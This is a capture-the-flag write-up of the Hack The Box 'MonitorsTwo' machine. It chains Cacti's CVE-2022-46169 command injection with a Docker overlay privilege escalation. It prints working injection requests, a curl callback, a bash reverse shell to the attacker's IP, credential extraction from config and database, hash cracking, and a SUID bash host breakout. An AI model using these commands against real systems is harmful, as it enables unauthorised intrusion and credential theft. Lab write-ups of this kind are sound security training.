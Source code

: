 # MonitorsTwo Writeup - by Thammanant Thamtaranon  

- MonitorsTwo is an easy Linux-based machine hosted on Hack The Box.

## Reconnaissance  
- I began with a full TCP port scan including service/version detection and OS fingerprinting:  
  `nmap -A -T4 -p- 10.10.11.211`  

![Nmap_Scan](Nmap_Scan.png)  

- The scan revealed two open ports:  
  - 22 (SSH)  
  - 80 (HTTP)  

## Scanning & Enumeration  
- Upon accessing the web service, I identified the application as Cacti version 1.2.22.

![Cacti](Cacti.png) 

## Exploitation  
- Researching this specific Cacti version led me to discover **CVE-2022-46169**, a critical unauthenticated command injection vulnerability affecting the `remote_agent.php` endpoint. This vulnerability occurs due to insufficient input sanitization in the `poller_id` parameter.

- Initial exploitation attempts failed due to IP-based restrictions:  
  `GET /remote_agent.php?action=polldata&poller_id=1;id&host_id=1&local_data_ids[]=1`  

![Request1](Request1.png)  

- Bypassing this restriction required adding a spoofed localhost header:  
  `X-Forwarded-For: 127.0.0.1`  

- After extensive parameter testing, I discovered valid parameters that would execute commands:  
  `host_id=1&local_data_ids[]=6`  

- Successful command execution was verified by triggering a callback to my attack machine:  
  `GET /remote_agent.php?action=polldata&poller_id=1;curl${IFS}10.10.16.11:8000&host_id=1&local_data_ids[]=6`  

![Request2](Request2.png)  
![Request3](Request3.png)  

- This led to establishing a reverse shell connection as the `www-data` user:  
  `bash -c 'bash -i >& /dev/tcp/10.10.16.11/4444 0>&1'`  

![www-data](www-data.png)  

- While exploring the container environment, I discovered database credentials in the Cacti configuration file:  
  `cat /var/www/html/cacti/include/config.php`  

![Config](Config.png)  

- Using these credentials, I enumerated the MySQL database structure:  
  `mysql -u root -h db -proot -e "SHOW DATABASES;"`  
  `mysql -u root -h db -proot -e "USE cacti; SHOW TABLES;"`  

- The `user_auth` table contained password hashes for Cacti users:  
  `mysql -u root -h db -proot -e "USE cacti; SELECT * FROM user_auth;"`  

![Credentials](Credentials.png)  

- I successfully cracked user `marcus`'s hash using John the Ripper:  
  `john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt`  

![Cracked](Cracked.png)  

- The cracked credentials granted SSH access as the `marcus` user:  
  `ssh marcus@10.10.11.211`  

![Marcus](Marcus.png)

- I then captured the user flag.

## Privilege Escalation  
- Checking sudo privileges revealed that, unfortunately, user `marcus` was not permitted to execute any commands via sudo:  
  `sudo -l`  

- We found a mail for user `marcus`.

![Mail](Mail.png)

- The mail described three vulnerabilities, the most interesting being **CVE-2021-41091**.
- **CVE-2021-41091** is a Docker Engine (Moby) vulnerability that allows attackers inside a container to traverse directories and access/modify files on the host system due to insecure permissions in `/var/lib/docker`.

- We checked the Docker version and confirmed the vulnerability.

![Version](Version.png)

- The exploit indicates that obtaining root on the container allows root access on the host machine.
- We re-entered the container.
- We ran the command `find / -perm -4000 -type f 2>/dev/null` to check for any SUID files and found `capsh`.

![SUID](SUID.png)

- Searching GTFOBins for `capsh` revealed a method to gain root privileges.

![GTFOBins](GTFOBins.png)

- We gained root in the container.

![Container_Root](Container_Root.png)

- We then ran `chmod +s /bin/bash` inside the container.
- On the host machine, we identified the overlay mount points:  
  `findmnt | grep "/var/lib/docker/overlay2" | awk '{print $1}'`

![Overlay](Overlay.png)

- Since we were unsure which overlay contained our SUID bash, we executed `/bin/bash -p` on each.
- This gave us a root shell on the host machine.

![Root](Root.png)

- Finally, we captured the root flag.
